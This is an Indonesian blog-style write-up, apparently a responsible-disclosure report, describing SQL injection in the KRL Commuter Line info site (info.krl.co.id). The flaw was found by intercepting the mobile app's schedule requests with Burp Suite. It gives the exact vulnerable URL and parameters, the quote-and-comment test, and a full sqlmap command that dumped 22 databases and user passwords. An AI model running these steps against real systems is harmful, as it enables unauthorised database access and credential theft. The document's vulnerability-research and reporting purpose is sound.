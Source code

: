```yaml
---
title: SQL Injection at Subdomain krl.co.id (Intercept Application Mobile)
date: 2020-09-29
---
```


![ ](https://miro.medium.com/max/665/1*zkOfhG0Zp6x3FYaRs1S0hQ.png)

Halo semuanya,
Kali ini saya ingin membagikan write up sederhana yang sesuai judul yaa, ok jadi langsung aja yaa.
Apa sih itu Commuter Line Indonesia? selengkapnya ada di [Wikipedia](https://id.wikipedia.org/wiki/KRL_Commuter_Line)

Saya mencari vulnerability nya melalui Intercept di aplikasi KRL Access Mobile, saya intercept menggunakan Burpsuite yang sudah saya konfigurasi agar bisa melakukan intercept http request di aplikasi Android. lalu saya melakukan intercept di bagian schedule and route, seperti ini

![ ](https://miro.medium.com/max/2400/1*vSYZP8d86JDTkF_F8H230Q.jpeg)

Lalu saya mendapatkan request url dan post data nya, berikut data nya

![ ](https://miro.medium.com/max/2400/1*N0WmvrJLyHYetYC0iBAfRA.png)

> Request Url: http://info.krl.co.id//VQFXIQNcRQkEQkdHVh1aW1dfQDhGF0dFRxFRFB8WbVBKTRYIXUZPWUBYTARWTAlWVEBSCV9TSFoAUARUWgMGCTo1MDRjZDI3Mg==
Post data : no_ka=1465&id_stasiun=BKS

___

Selanjutnya saya mencoba untuk menginjeksi dengan single quote pada parameter no_ka, response nya adalah “500 internal server error”

![ ](https://miro.medium.com/max/2400/1*QI9cE4erO7YKDsY4ZBy_yw.png)

Lalu saya tambahkan ( — -) setelah single quote, maka menampilkan data data normal, berarti menandakan bahwa vulnerability terhadap SQL Injection. awalnya saya tidak yakin vulnerable SQL Injection, sebab respons nya 500 Internal Server Error, tetapi saya menambahkan balance menampilkan data normal.

![ ](https://miro.medium.com/max/2400/1*UA663wzxpLdy3raZfMxMYA.png)

___

Selanjutnya saya scan di SQLMAP dengan command

```
sqlmap -u "http://info.krl.co.id//VQFXIQNcRQkEQkdHVh1aW1dfQDhGF0dFRxFRFB8WbVBKTRYIXUZPWUBYTARWTAlWVEBSCV9TSFoAUARUWgMGCTo1MDRjZDI3Mg==" --data="no_ka=1465&id_stasiun=BKS" --level 3 --risk 3 --dbs
```

Maka hasil scannya adalah saya mendapatkan 22 database

![ ](https://miro.medium.com/max/2400/1*sf0XDAPeMlw_LXbDpnjS4Q.png)

Dan 5 Users

![ ](https://miro.medium.com/max/2400/1*rhfD2OEMFsrUyq-pecfh-w.png)

Beserta Passwordnya

![ ](https://miro.medium.com/max/2400/1*dhPyZ0hre8jHl2G8vZ2XwQ.jpeg)

___

## Timeline Report

> 4 Agustus, 2020 send report to email commuter.care@krl.co.id

Jangan lupa di share yaa, agar saya bisa untuk memberikan write up sederhana lagi. see you!

Contact me at [About Me](/about)
